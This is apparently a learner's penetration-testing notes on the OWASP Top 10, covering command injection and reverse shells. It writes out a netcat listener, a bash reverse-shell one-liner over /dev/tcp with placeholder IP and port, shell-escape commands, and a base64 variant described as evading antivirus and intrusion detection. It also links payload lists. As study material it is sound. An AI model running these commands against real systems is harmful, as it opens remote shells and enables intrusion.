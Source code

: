 # OWASP TOP 10

## Resources:
reverse shell : https://www.stationx.net/reverse-shell-cheat-sheet/
terminal command to start server: sudo openvpn /home/avanish/Downloads/avanish.srivats.ovpn

## COMMAND INJECTION
user controlled input is interpreted as actual commands or parameters.

### TYPES:

SQL Injection: This occurs when user controlled input is passed to SQL queries.
As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries. 

Command Injection: This occurs when user input is passed to system commands.
As a result, an attacker is able to execute arbitrary system commands on application servers.


### methods:
1)Reverse shell

Depending on what resources are available we change the tool weuse, given here only for bash,but inncludes python,perl etc.


ethical hacking and penetration testing, there are two types of shells: a reverse shell and a bind shell. 
A reverse shell is when the target machine connects back to the attacker's machine, which is listening for a connection, allowing the attacker to gain remote access to the target machine. On the other hand, a bind shell is when the target machine listens for incoming connections on a specified port, and the attacker machine connects to it.
wHAT IS A shell?
Simply put, the shell is a program that takes commands from the keyboard and gives them to the operating system to perform.
EX:
bash-bourne again shell
others: ksh, tcsh and zsh

a shell script is a file containing a series of commands

reverse shell attack steps:
starting a listener using netcat
nc -nvlp <port>
bash -i >& /dev/tcp/<ip>/<port> 0>&1
This BASH one-liner opens an interactive shell (-i) and redirects the input, output, and error streams to a TCP socket (IP and port) connected to the attacker's IP and port. The file descriptor 0>&1 links the input and output streams, permitting two-way communication between the attacker and the target.

THis is followed by a shell escape,which is escaping the conditions applied to the shell to get more priveleges.

Simple Shell Escape -  /bin/sh -i or /bin/bash -i
Echo Shell Escape  - echo os.system('/bin/bash')

Compiled shells are binary programs executed directly on the target system without an interpreter. 


MSFVenom is a powerful payload generation tool part of the Metasploit Framework. It can generate reverse shell payloads in various formats, including exe, elf, war, asp, and malicious DLL files. Staged and non-staged are two types of payloads generated by MSFVenom.

Obfuscation

Obfuscation is disguising or changing code to make it more difficult to understand, analyze, or reverse engineer. In reverse shells, obfuscation can help evade detection by security tools, such as antivirus software, intrusion detection systems, and firewalls.

bash -i >& /dev/tcp/<ip>/<port> 0>&1 | base64

obfuscate reverse shell code, such as Veil and Shelter


site for xss attacks: https://xss-payloads.paracyberbellum.io/payloads-list.html?s#category=system
